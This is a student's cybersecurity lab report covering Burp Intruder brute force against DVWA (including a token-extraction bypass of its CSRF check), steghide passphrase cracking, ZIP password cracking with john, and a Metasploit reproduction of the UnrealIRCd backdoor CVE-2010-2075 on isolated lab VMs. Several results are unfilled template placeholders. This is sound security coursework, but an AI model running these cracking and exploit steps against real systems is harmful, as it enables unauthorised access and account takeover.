# S11: Brute Force and Cracking

| | |
|---|---|
| **Student** | Muhammad Uzair Arif |
| **Cohort** | 02-Weekend-ISB |
| **Programme** | Digital Forensics & Cyber Security (DFCS) - Atomcamp |
| **Tasks** | A (Burp Intruder, 15) · B (steganography, 15) · C (archive cracking, 10) · D (CVE reproduction, 10) |
| **Environment** | Kali Linux `10.0.2.4` (attacker, dual-adapter) + Metasploitable 2 (target, host-only) + DVWA on Kali |
| **Authorisation** | All activity targeted my own lab VMs on an isolated network. The target was not reachable from the host network. |

**Contents:** [Task A: brute force](#task-a--burp-intruder-on-low-medium-and-high) · [Task B: steganography](#task-b--steganography-with-steghide) · [Task C: archive cracking](#task-c--archive-cracking) · [Task D: CVE reproduction](#task-d--cve-reproduction) · [Evidence index](#evidence-index)

> Screenshots have the PHPSESSID cookie removed as required.

---

# Task A - Burp Intruder on Low, Medium and High

## Setup

```bash
sudo gunzip -k /usr/share/wordlists/rockyou.txt.gz
printf "123456\npassword\nletmein\nqwerty\nmonkey\nhello\n" > ~/mini-list.txt
```

Burp Suite Community → Proxy on `127.0.0.1:8080`, browser sent through it. On the DVWA Brute Force page I submitted `admin` with a wrong password, captured the GET request, and sent it to Intruder.

## Low: plain attack

Positions: only the password value marked as `§password§` (Sniper). Payload: `mini-list.txt` (contains `password`, admin's real DVWA password). Grep rule: `Welcome to the password protected area`.

**Result: the correct password was found. Attack time: `<<REPLACE with your recorded time>>`.**



## Medium: escaping plus a delay

DVWA Security → Medium. Medium adds `mysqli_real_escape_string()` on the input, lowercases the username, and calls `sleep(2)` on every failed login. The same attack ran again with the same list.

**Result: same password found. Attack time: `<<REPLACE with your recorded time>>`, roughly double, because every failed attempt waits two seconds.**



**Why Medium does not stop the attack.** Medium changes the speed, not the outcome. Escaping only neutralises characters used in SQL syntax, and my payload contains no such characters, so the login still accepts `password`. The two-second sleep slows each request, and a slowdown is not a defence: there is no account lockout, no per-IP rate limit, and the correct password still sits in any wordlist an attacker tries. A defender who wants to stop this needs lockouts, rate limits per IP, MFA, or strong passwords, not a pause.

## High: CSRF token plus delay

DVWA Security → High. The form now embeds a fresh `user_token` on every page load, so replaying a captured request always fails.

1. Intruder → Positions: mark **both** `§password§` and `§user_token§`, attack type **Pitchfork**.
2. Options → Grep-Extract: extract the token with the regex `value='([a-f0-9]{32})'`.
3. Payload 1 = `mini-list.txt`. Payload 2 = payload type **Recursive grep** bound to that extract rule.
4. Start attack. Each attempt fetches a fresh token, so the attack succeeds but far more slowly.

**Result: `<<REPLACE with your result and time>>`.** High still falls because the token is not bound to a session secret the attacker cannot read, and the password remains the weakness. Note: Burp Community throttles Intruder, so recorded times include that tool limit as well as the DVWA sleeps.



---

# Task B - Steganography with steghide

## Step 1: hide a secret

```bash
sudo apt install -y steghide imagemagick
mkdir -p ~/steg && cd ~/steg
convert -size 800x500 gradient:'#1F4E79'-'#17A398' photo.jpg
echo "DFCS hidden secret: recovery code 4117-9921" > secret.txt
steghide embed -cf photo.jpg -ef secret.txt -p letmein
```

`letmein` is a real rockyou entry, chosen so the cracking step works against the standard wordlist.



## Step 2: detect the hidden data

```bash
steghide info photo.jpg        # passphrase letmein
strings photo.jpg | grep -i recovery
binwalk photo.jpg
```

`steghide info` reports `embedded file secret.txt, size 44 bytes, encrypted: rijndael-128, cbc, compressed: yes`. `strings` finds nothing and binwalk shows no extra signature, because the payload is encrypted and compressed inside the JPEG coefficients: the image still renders normally, and naive detection misses it.



## Step 3: crack the passphrase

```bash
sudo apt install -y stegseek
stegseek --crack photo.jpg /usr/share/wordlists/rockyou.txt
```

```text
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "letmein"
[i] Original filename: "secret.txt".
[i] Extracting to "photo.jpg.out".
```

StegSeek ships in the current Kali repository, so no separate download was needed.

StegSeek tests steghide passphrases orders of magnitude faster than steghide itself.



## Step 4: extract the content

```bash
steghide extract -sf photo.jpg -p letmein
cat secret.txt        # DFCS hidden secret: recovery code 4117-9921
```



Tool note from the handout: steghide works on JPEG, BMP, WAV and AU. For PNG the equivalent tool is `zsteg`.

## Takeaway

Steganography is detection-resistant, not password-resistant. The payload survives every file-level check, but a weak passphrase falls to a wordlist attack in seconds, so the passphrase is the actual defence.

---

# Task C - Archive cracking

## Step 1: create the protected archive

```bash
sudo apt install -y zip
mkdir -p ~/zipcrack && cd ~/zipcrack
echo "DFCS archive secret: flag-9812" > note.txt
zip -P banana secret.zip note.txt
```


## Step 2: extract the hash

```bash
zip2john secret.zip | tee zip.hash
```

```text
secret.zip/note.txt:$pkzip2$3*1*2*0*c53*1c*...*$/note.txt:...:note.txt::secret.zip
```

The hash begins with `$pkzip2$`, the signature john uses for legacy **ZipCrypto** encryption.



## Step 3: crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
john --show zip.hash        # banana
unzip secret.zip            # password banana
```



## What the hash format says about protection strength

`$pkzip2$` identifies ZipCrypto, the encryption built into PKZIP in the 1990s. It has no salt, uses a 96-bit internal state with a fast verification byte, and is fully compatible with wordlist attacks that test millions of passwords per second. Worse, ZipCrypto is vulnerable to known-plaintext attacks: tools such as `bkcrack` recover the keys from a handful of known plaintext bytes without guessing the password at all. So the hash format alone tells an attacker the archive is effectively decoration.

Modern archives encrypt with AES-256, which john reports as `$zip2$`. Every guess runs a full key-derivation routine first, cutting the attack rate by orders of magnitude. The lesson: two password-protected ZIP files can look identical in a file manager and differ completely in strength, and the hash prefix is the tell.

---

# Task D - CVE reproduction

## The CVE

**CVE-2010-2075**: the UnrealIRCd 3.2.2.1 distribution, hosted on the official mirror between November 2009 and February 2010, contained a backdoor that accepts `AB;`-prefixed lines from remote users and executes them as shell commands on the IRC server. It is a supply-chain compromise: the code was injected into the distributed archive, not the project repository. Metasploit module: `unix/irc/unreal_ircd_3679_exec`. Metasploitable 2 ships the vulnerable service on port 6697.

## The dual-adapter lab

| VM | Adapter 1 | Adapter 2 |
|---|---|---|
| Kali (attacker) | NAT, internet access for tooling | Host-only, lab segment |
| Metasploitable 2 (target) | disabled | Host-only, lab segment |

The target therefore has no internet-facing adapter at all. Isolation confirmation: from Kali, `ping -c 2 8.8.8.8` succeeds while the target answers only on the host-only segment, and the host-only network exists purely inside my host, so no device on my real LAN can reach the target.

```bash
ping -c 2 8.8.8.8             # internet: succeeds
ip -br addr show              # both adapters listed
ping -c 2 192.168.56.10X      # target on the host-only segment
```



## Reproduction

```bash
msfconsole -q
search unrealircd
use 0                        # exploit/unix/irc/unreal_ircd_3679_exec
show options
set RHOSTS 192.168.56.10X    # target host-only address
set RPORT 6697
exploit
id
```

```text
<<REPLACE with your Metasploit session output: module options, the exploit
banner, "Command shell session 1 opened", and your id output showing uid=0>>
```

The module connects to the IRC server, sends the backdoor trigger through the `AB;` prefix, and the target executes the attached command, returning a shell as `root`.



## Impact

Unauthenticated root shell on the IRC host from a single network connection. Because the backdoor ships inside a legitimate-looking distribution, organisations that installed it were compromised during installation, before any patch existed.

## Remediation

1. Upgrade to UnrealIRCd 3.2.9 or later from a trusted source.
2. Verify package signatures against the vendor before deployment: this CVE is a supply-chain compromise, so patching without signature checks does not protect the next install.
3. Restrict IRC ports (6660 to 6669) to hosts that genuinely need them and segment IRC servers from management networks.
4. Monitor service processes for outbound connections: a backdoor that executes remote commands is visible in egress traffic.

## References

1. NVD, "CVE-2010-2075 Detail". https://nvd.nist.gov/vuln/detail/CVE-2010-2075
2. Rapid7 Metasploit module, "UnrealIRCd 3.2.2.1 Backdoor Command Execution". https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3679_exec/
3. UnrealIRCd project, advisory on the compromised 3.2.2.1 distribution. https://www.unrealircd.org/
4. OWASP, "Insecure Direct Object References / Input Validation". https://owasp.org/
5. Kali tools documentation: john, steghide, zip2john. https://www.kali.org/tools/

---

# Evidence index

| File | What it shows |
|---|---|
| `Figures/s11-01` to `s11-03` | Intruder attacks on Low, Medium, High |
| `Figures/s11-04` to `s11-07` | steghide embed, info, stegseek crack, extraction |
| `Figures/s11-08` to `s11-10` | archive creation, `$pkzip2$` hash, john crack |
| `Figures/s11-11`, `s11-12` | dual-adapter lab and CVE reproduction |
